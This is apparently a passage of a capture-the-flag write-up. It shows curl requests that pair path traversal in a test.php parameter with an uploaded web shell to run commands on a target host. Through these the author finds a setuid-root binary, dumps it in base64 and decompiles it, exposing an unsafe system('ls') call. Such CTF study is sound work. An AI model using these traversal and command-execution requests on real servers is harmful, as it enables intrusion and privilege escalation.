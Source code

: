 Most of the files are known and expected, but one of them stands out:
```
-rwsr-xr-x 1 root root 8432 Jan 22 11:28 /bin/files
```

What is this file?
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=ls -al /bin/files"
<pre>-rwsr-xr-x 1 root root 8432 Jan 22 11:28 /bin/files
</pre>
```

If we try to run it, we get:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=/bin/files"
<pre>gallery
index.html
index.php
pages
pics
test.php
web.css
Welcome!
This is your files:
```

This doesn't feel like a real tool. Let's dump it and take a closer look:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=cat /bin/files | base64" 
<pre>f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAEAYAAAAAAABAAAAAAAAAALAZAAAAAAAAAAAAAEAAOAAJ
AEAAHQAcAAYAAAAEAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA+AEAAAAAAAD4AQAAAAAAAAgA
AAAAAAAAAwAAAAQAAAA4AgAAAAAAADgCAAAAAAAAOAIAAAAAAAAcAAAAAAAAABwAAAAAAAAAAQAA
AAAAAAABAAAABQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFgJAAAAAAAAWAkAAAAAAAAAACAA
AAAAAAEAAAAGAAAAoA0AAAAAAACgDSAAAAAAAKANIAAAAAAAcAIAAAAAAAB4AgAAAAAAAAAAIAAA
AAAAAgAAAAYAAACwDQAAAAAAALANIAAAAAAAsA0gAAAAAADwAQAAAAAAAPABAAAAAAAACAAAAAAA
AAAEAAAABAAAAFQCAAAAAAAAVAIAAAAAAABUAgAAAAAAAEQAAAAAAAAARAAAAAAAAAAEAAAAAAAA
AFDldGQEAAAAFAgAAAAAAAAUCAAAAAAAABQIAAAAAAAAPAAAAAAAAAA8AAAAAAAAAAQAAAAAAAAA
```

We copy the file to our local host and decode it:
```console
root@kali:/media/sf_CTFs/hoshen/3# cat files_base64.txt | base64 -d > files.elf
root@kali:/media/sf_CTFs/hoshen/3# file files.elf
files.elf: ELF 64-bit LSB pie executable x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2f94b5fff5379820dbdff60ed3652d152cb908e1, not stripped
```

Opening it with Ghidra, we see the following simple implementation:
```c
undefined8 main(void)
{
  setuid(0);
  setgid(0);
  puts("Welcome!");
  puts("This is your files:");
  system("ls");
  return 1;
}
```
